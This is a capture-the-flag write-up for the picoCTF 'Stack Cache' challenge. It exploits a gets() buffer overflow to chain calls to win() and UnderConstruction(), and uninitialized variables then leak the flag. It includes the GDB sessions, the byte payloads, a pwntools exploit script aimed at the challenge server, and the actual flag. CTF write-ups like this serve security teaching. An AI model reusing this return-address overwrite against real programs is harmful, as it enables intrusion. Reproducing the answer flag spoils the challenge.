 # Stack Cache - 400 pts

### Key points

- Buffer Overflow
- Undefined Behaviour

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> Undefined behaviours are fun. It looks like Dr. Oswal allowed buffer overflows again. Analyse this program to identify how you can get to the flag.

We are given a binary and its source code.

---

### Solution

Open the source code. We have a `main()` function that calls a function `vuln()`. `vuln()` takes an input via `gets()`, which means we are free to stack smash. It also prints our input back to us. There are two other functions, `win()` and `UnderConstruction()()`, that are never called. That's not a problem though, since we can simply overwrite return addresses to the addresses of these functions.

`win()` reads a file `flag.txt`, but never actually prints it.

`UnderConstruction()()` is where the undefined behaviour the challenge hints at occurs. Some variables are defined but never initialized, and then printed. Undefined behaviour is when the result of executing a program is unpredictable. Let's see what happens if we call `UnderConstruction()()`.

---

Decompile the binary in Ghidra to find the addresses we need.

The address of `UnderConstruction()()` is `0x08049e20`.

The address of `win()` is `0x08049da0`.

Let's run the binary in GDB to find the offset. The input size buffer is set to 10, so we shouldn't have to enter a super-long string. Set a breakpoint at the return address of `vuln()`.

```ps1
$ gdb vuln
gef> b *0x08049ef8
Breakpoint 1 at 0x8049ef8
gef> r
Starting program: /var/www/CanHack/vuln
Give me a string that gets you the flag
aaaabbbbccccddddeeeeffffgggg
aaaabbbbccccddddeeeeffffgggg

Breakpoint 1, 0x08049ef8 in vuln ()
...
gef> continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x65656464 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1d
$ebx   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$ecx   : 0x1d
$edx   : 0xffffffff
$esp   : 0xffffd470  →  "eeffffgggg"
$ebp   : 0x64646363 ("ccdd"?)
$esi   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$edi   : 0x80e7000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$eip   : 0x65656464 ("ddee"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
```

The return pointer, `$eip`, has been overwritten to `0x65656464`, which is `ddee`. So our null bytes will be the length of `aaaabbbbccccdd`, which is 14.

Let's set a breakpoint at the return address of `UnderConstruction()`, and run the program with an overwrite of `vuln()`'s return address to the address of `UnderConstruction()` (`0x08049e20`), packed as bytes.

```ps1
gef>  b *0x08049eb3
Breakpoint 1 at 0x8049eb3
gef>  r < <(echo -ne "aaaaaaaaaaaaaa\x20\x9e\x04\x08")
Starting program: /var/www/CanHack/vuln < <(echo -ne "aaaaaaaaaaaaaa\x20\x9e\x04\x08")
Give me a string that gets you the flag
aaaaaaaaaaaaaa ▒
User information : 0x8049ef4 0x8051349 0x80e7000 0x80e7000 (nil) 0xffffd454
Names of user: 0x80c9a04 0x80e71c0 0x8051369
Age of user: 0xffffd468

Breakpoint 1, 0x08049eb3 in UnderConstruction ()
```

In C, if a variable is unitialized, it is not given a default value of 0 (unlike some other languages). Instead, it is assigned whatever value happens to be in the memory location the variable is being assigned to. We can use this exploit:

First we jump to `win()`, which _reads_ the flag into the memory, then we jump to `UnderConstruction()`, which _prints_ the memory that should have the flag in it.

`win()` doesn't have a buffer, we shouldn't need any null bytes there. Our payload will look like this:

`14 null bytes + address of win() + address of UnderConstruction()`

Lastly, don't forget to create a fake flag in `flag.txt` so `win()` doesn't complain.

```ps1
$ echo "picoCTF{t35t_fl4g}" > flag.txt
$ gdb vuln
gef>  run < <(echo -ne "aaaaaaaaaaaaaa\xa0\x9d\x04\x08\x20\x9e\x04\x08")
Starting program: /var/www/CanHack/vuln < <(echo -ne "aaaaaaaaaaaaaa\xa0\x9d\x04\x08\x20\x9e\x04\x08")
Give me a string that gets you the flag
aaaaaaaaaaaaaa▒ ▒
User information : 0x80c9a04 0x8049ef4 0x8051349 0x80e7000 0x80e7000 0xa7d67
Names of user: 0x346c665f 0x74353374 0x7b465443
Age of user: 0x6f636970
```

If you are familiar with solving picoCTF challenges, that `0x6f636970` should raise some red flags - it's the hex representation of `pico`! (backwards for endianness). Converting the hex from there back until `7d` (`'}'`), we get our fake flag, `picoCTF{t35t_fl4g}`. Time to pwn!

---

Connect to the remote and send our payload:

```py
from pwn import *

r = remote("saturn.picoctf.net", 55387)

payload = b"a" * 14 + p32(0x08049da0) + p32(0x08049e20)
r.sendline(payload)
result = r.recvall()
r.close()
```

Get the hex values:

```py
result = result[result.index("0x"):]

hex_result = ""
for i in result.split():
    i = i[2:]
    try:
        int(i, 16)
    except:
        continue
    else:
        if len(i) >= 2:
            hex_result += i
```

Decode the flag and reverse it (endianness):

```py
FLAG = hex_result[hex_result.index("7d"):hex_result.index("6f636970") + 8]
FLAG = bytearray.fromhex(FLAG).decode()
FLAG = FLAG[::-1]

print("Flag:", FLAG)
```

The full script is in [solve.py](solve.py).

---

## Flag

> `picoCTF{Cle4N_uP_M3m0rY_4c1cd4ab}`
